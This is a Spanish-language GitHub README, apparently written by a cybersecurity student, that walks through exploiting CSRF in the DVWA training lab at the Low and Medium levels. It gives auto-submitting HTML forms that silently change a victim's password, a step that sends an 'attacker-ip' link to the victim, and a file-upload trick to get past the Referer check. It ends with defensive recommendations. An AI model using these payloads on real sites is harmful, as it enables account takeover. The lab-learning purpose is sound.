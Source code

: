 # 🛡️ DVWA - Cross Site Request Forgery (CSRF) - Low y Medium

En este repositorio se explica cómo explotar la vulnerabilidad **CSRF (Cross Site Request Forgery)** en los niveles **Low** y **Medium** dentro de **DVWA (Damn Vulnerable Web Application)**.

---

## 🎯 Objetivo

Realizar un ataque CSRF para cambiar la contraseña de un usuario autenticado sin su consentimiento, aprovechando la ausencia o debilidad de protecciones en el formulario vulnerable.

---

## 🔧 Nivel Low

### 🧪 Vulnerabilidad detectada
- No hay validación de origen ni token CSRF.
- Es posible realizar el ataque simplemente cargando una página maliciosa en el navegador de la víctima mientras está autenticada.

### 🛠 Paso a paso

1. Crear un archivo llamado `csrf.html` con el siguiente contenido:

```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/dvwa/vulnerabilities/csrf/" method="GET">
      <input type="hidden" name="password_new" value="nuevacontra" />
      <input type="hidden" name="password_conf" value="nuevacontra" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

2. Levantar un servidor HTTP simple:

```bash
python3 -m http.server 80
```

3. Enviar el enlace al archivo (por ejemplo `http://attacker-ip/csrf.html`) a la víctima autenticada.

4. Al visitar el enlace, la contraseña se cambiará automáticamente.

✅ **Exploit exitoso**: la contraseña cambia sin interacción del usuario.

---

## 🔧 Nivel Medium

### 🧪 Vulnerabilidad detectada
- El servidor verifica el **referer** o el origen de la petición.
- Una petición externa directa no funciona, pero se puede subir el exploit usando otra vulnerabilidad.

### 🛠 Paso a paso (CSRF + File Upload)

1. Cambiar el archivo `csrf.html` a `csrf.php`.
2. Establecer el nivel de seguridad en **Low** temporalmente.
3. Ir a la sección **File Upload** de DVWA.
4. Subir el archivo `csrf.php` al servidor.

```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/dvwa/vulnerabilities/csrf/" method="GET">
      <input type="hidden" name="password_new" value="mediumpass" />
      <input type="hidden" name="password_conf" value="mediumpass" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

5. Una vez subido, visitar la URL del archivo, por ejemplo:

```
http://127.0.0.1/dvwa/hackable/uploads/csrf.php
```

✅ **Exploit exitoso**: al alojar el archivo en el mismo servidor, se evita el filtro del referer y se cambia la contraseña.

---

## ⚠️ Recomendaciones de seguridad

Para prevenir ataques CSRF:

- Usar tokens CSRF únicos por sesión y validados en el servidor.
- Verificar cabeceras de origen (`Origin` o `Referer`).
- No permitir cargas de archivos ejecutables.
- Aplicar SameSite en cookies.

---

## 📚 Recursos

- 🔗 [Writeup de Aftab Sama sobre CSRF](https://aftabsama.com/writeups/dvwa/cross-site-request-forgery-csrf/)
- ▶️ [Vídeo tutorial de CSRF en DVWA](https://www.youtube.com/watch?v=Nfb9E8MJv6k&list=PLHUKi1UlEgOJLPSFZaFKMoexpM6qhOb4Q&index=4)
- 📖 [OWASP - CSRF](https://owasp.org/www-community/attacks/csrf)

---

## 👨‍💻 Autor

**Carlos Peris Navarro**  
Estudiante de Ciberseguridad

